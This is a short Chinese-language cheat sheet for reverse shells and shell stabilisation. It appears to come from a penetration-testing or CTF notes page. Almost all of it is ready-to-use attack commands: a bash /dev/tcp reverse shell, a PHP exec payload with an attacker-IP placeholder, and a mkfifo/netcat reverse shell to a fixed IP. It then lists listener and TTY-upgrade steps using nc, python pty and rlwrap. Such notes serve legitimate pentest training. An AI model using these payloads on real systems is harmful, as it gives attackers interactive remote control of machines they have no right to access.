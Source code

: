 
## 反shell

**bash**

``````
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
``````

**php**

``````
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<攻击者ip>/1234 0>&1'");
?>
``````



```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f
```



## 稳定shell

**python**
```bash
sudo nc -lvnp 443 获取到反向shell 
python3 -c 'import pty;pty.spawn("/bin/bash")' 使用 Python 生成功能更好的 bash shell 
export TERM=xterm
Ctrl + Z 将 shell 设置为背景 
stty raw -echo; fg 稳定化并重新进入shell
```

**rlwrap**
```bash
rlwrap nc -lvnp <port>
Ctrl + Z 将 shell 设置为背景 
stty raw -echo; fg 稳定化并重新进入shell
```


